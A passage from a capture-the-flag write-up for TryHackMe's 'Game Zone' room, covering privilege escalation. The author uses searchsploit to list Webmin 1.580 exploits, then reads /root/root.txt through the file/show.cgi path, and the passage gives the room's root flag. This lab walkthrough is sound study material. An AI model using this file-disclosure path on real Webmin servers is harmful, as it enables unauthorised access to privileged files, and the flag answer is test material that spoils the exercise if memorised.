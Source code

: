> What is the CMS version?
>
> Answer: `1.580`

## Privilege Escalation

Using `searchsploit` we can now find some exploits for `Webmin 1.580`
```shell-session
$ searchsploit webmin 1.58     
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Executio | unix/remote/21851.rb
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Discl | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Discl | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metas | linux/webapps/47330.rb
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results


```

We can use the second exploit's logic. By simply navigating to `localhost:10000/file/show.cgi/root/root.txt`, we obtain the contents of the `root.txt` file.

> What is the root flag?
>
> Answer: `a4b945830144bdd71908d12d902adeee`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Game Zone](https://tryhackme.com/room/gamezone)
